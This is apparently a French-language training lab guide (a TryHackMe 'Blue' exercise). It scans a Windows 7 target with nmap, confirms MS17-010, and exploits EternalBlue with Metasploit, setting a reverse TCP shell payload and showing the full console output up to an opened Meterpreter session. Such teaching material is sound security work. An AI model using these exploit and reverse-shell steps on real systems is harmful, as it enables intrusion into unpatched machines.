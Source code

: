 - Connectez-vous en SSH à votre poste d'attaque Kali
  (crédentiels fournis par l'instructeur)

```
sudo apt-get update
sudo apt-get install xrdp lxde-core lxde tigervnc-standalone-server -y
sudo nano /etc/xrdp/xrdp.ini
    max_bpp=16
sudo nano /etc/X11/Xwrapper.config
        allowed_users=ec2-user
sudo service xrdp start
sudo passwd kali 
```
- Connectez-vous en RDP à votre poste d'attaque Kali

```
ifconfig
```

- Pingez votre Machine THM

```
sudo apt install openvpn

sudo openvpn xixi.blue.ovpn&

ifconfig
```

- Quelle difference remarquez-vous dans ifconfig?

- Pingez à nouveau votre Machine THM

- Scannez la machine cible pour d'éventuelles vulenératibilité

```
nmap -sV -vv --script vuln TARGET_IP
```


```diff
@@Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-13 07:20 UTC@@
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 07:20
Completed NSE at 07:20, 10.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 07:20
Completed NSE at 07:20, 0.00s elapsed
Initiating Ping Scan at 07:20
Scanning 10.10.18.88 [2 ports]
Completed Ping Scan at 07:20, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:20
Completed Parallel DNS resolution of 1 host. at 07:20, 0.00s elapsed
Initiating Connect Scan at 07:20
Scanning ip-10-10-18-88.ec2.internal (10.10.18.88) [1000 ports]
Discovered open port 139/tcp on 10.10.18.88
Discovered open port 3389/tcp on 10.10.18.88
Discovered open port 445/tcp on 10.10.18.88
Discovered open port 135/tcp on 10.10.18.88
Discovered open port 49158/tcp on 10.10.18.88
Discovered open port 49160/tcp on 10.10.18.88
Discovered open port 49152/tcp on 10.10.18.88
Discovered open port 49153/tcp on 10.10.18.88
Discovered open port 49154/tcp on 10.10.18.88
Completed Connect Scan at 07:20, 2.53s elapsed (1000 total ports)
Initiating Service scan at 07:20
@@Scanning 9 services on ip-10-10-18-88.ec2.internal (10.10.18.88)@@
```

- Les ports ouverts nous renseignent sur le type d'applications qui tournent

https://www.upguard.com/blog/smb-port#:~:text=SMB%20is%20a%20network%20file,dialects%20that%20communicate%20over%20NetBIOS.

- Lister les vulnerabilités potentielles de ce type

```
ls -al /usr/share/nmap/scripts | grep -e "smb"
```

- Vulnerabilité à exploiter : 

    https://en.wikipedia.org/wiki/EternalBlue

- Vérifier le satut de la vulnérabilité sur la machine cible : 

```
nmap -sS -Pn -p 445 10.10.18.88 --script smb-vuln-ms17-010.nse
```

```diff
@@Host script results:@@
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
- Comprendre la vulnérabilité pour préparer l'attaque : 

References:
       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/. 
       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx. 
       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143. 

### Menez l'attaque exploit

- Prise en main de Metasploit

```
msfconsole -h
```

```
msfconsole
```

```diff                                    ____________
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]@@
@@[% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]@@
@@[% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]@@
@@[% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
```

- Rechercher l'attaque

```
msf6 > search eternalblue
```

```
Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

- Sélectionner l'attaque
```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

- Configurer l'attaque

```
msf6 > exploit(windows/smb/ms17_010_eternalblue) > show options
```

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.30.2.112     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

- Quelles sont les options nécessaires pour la commande ?

```
set _OPTION_ _VALUE_
```

:mushroom: Hint : Le host local doit être adapté à l'interface créée par le VPN


- Préparer le payload pour enclencher un reverse shell en tcp

```
set payload windows/x64/shell/reverse_tcp
```

- Lancez l'attaque :rocket:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

```
[*] Started reverse TCP handler on 10.8.237.162:4444
[*] 10.10.214.31:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.10.214.31:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.214.31:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.214.31:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.214.31:445 - The target is vulnerable.
[*] 10.10.214.31:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.214.31:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.214.31:445      - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.214.31:445 - Connecting to target for exploitation.
[+] 10.10.214.31:445 - Connection established for exploitation.
[+] 10.10.214.31:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.214.31:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.214.31:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.214.31:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.214.31:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.214.31:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.214.31:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.214.31:445 - Sending all but last fragment of exploit packet
[*] 10.10.214.31:445 - Starting non-paged pool grooming
[+] 10.10.214.31:445 - Sending SMBv2 buffers
[+] 10.10.214.31:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.214.31:445 - Sending final SMBv2 buffers.
[*] 10.10.214.31:445 - Sending last fragment of exploit packet!
[*] 10.10.214.31:445 - Receiving response from exploit packet
[+] 10.10.214.31:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.214.31:445 - Sending egg to corrupted connection.
[*] 10.10.214.31:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 10.10.214.31
[*] Meterpreter session 1 opened (10.8.237.162:4444 -> 10.10.214.31:49199) at 2021-09-13 10:32:39 +0000
[+] 10.10.214.31:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.214.31:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.214.31:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
